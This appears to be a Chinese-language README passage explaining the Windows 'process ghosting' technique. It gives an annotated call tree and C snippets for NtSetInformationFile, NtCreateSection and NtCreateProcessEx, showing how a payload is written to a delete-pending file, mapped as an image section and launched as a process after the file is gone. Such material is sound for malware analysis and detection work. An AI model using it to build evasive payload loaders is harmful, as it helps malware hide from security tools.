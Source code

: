 ```
main()
  └─> ReadPayloadFile()           // 读取载荷文件
  └─> CreateSectionFromDeletePendingFile()  // 创建幽灵节
        ├─> OpenFileForGhosting()   // 打开文件（DELETE 权限）
        ├─> NtSetInformationFile()  // 标记删除待处理 ★
        ├─> NtWriteFile()           // 写入载荷
        ├─> NtCreateSection()       // 创建镜像节
        └─> NtClose()               // 删除文件 ★
  └─> CreateProcessFromSection()  // 创建进程
        ├─> NtCreateProcessEx()     // 从节创建进程
        ├─> SetupProcessParameters() // 配置进程参数
        ├─> NtCreateThreadEx()      // 创建主线程
        └─> ResumeThread()          // 启动进程
```

### 关键 API 说明

#### 1. NtSetInformationFile - 设置删除待处理
```c
FILE_DISPOSITION_INFORMATION dispInfo = { .DoDeleteFile = TRUE };
NTSTATUS status = NtSetInformationFile(
    hFile,                       // 文件句柄
    &statusBlock,                // 返回状态
    &dispInfo,                   // 删除标志
    sizeof(dispInfo),
    FileDispositionInformation   // 信息类型
);
```

#### 2. NtCreateSection - 创建镜像节
```c
NTSTATUS status = NtCreateSection(
    &hSection,              // 返回节句柄
    SECTION_ALL_ACCESS,     // 访问权限
    NULL,                   // 对象属性
    0,                      // 最大大小（镜像节自动计算）
    PAGE_READONLY,          // 页保护
    SEC_IMAGE,              // 镜像节标志 ★
    hFile                   // 删除待处理文件的句柄
);
```

#### 3. NtCreateProcessEx - 从节创建进程
```c
NTSTATUS status = NtCreateProcessEx(
    &hProcess,              // 返回进程句柄
    PROCESS_ALL_ACCESS,     // 访问权限
    NULL,                   // 对象属性
    NtCurrentProcess(),     // 父进程
    PS_INHERIT_HANDLES,     // 继承句柄标志
    hSection,               // 镜像节句柄 ★
    NULL,                   // 调试端口
    NULL,                   // 异常端口
    FALSE                   // 是否在作业中
);
```

---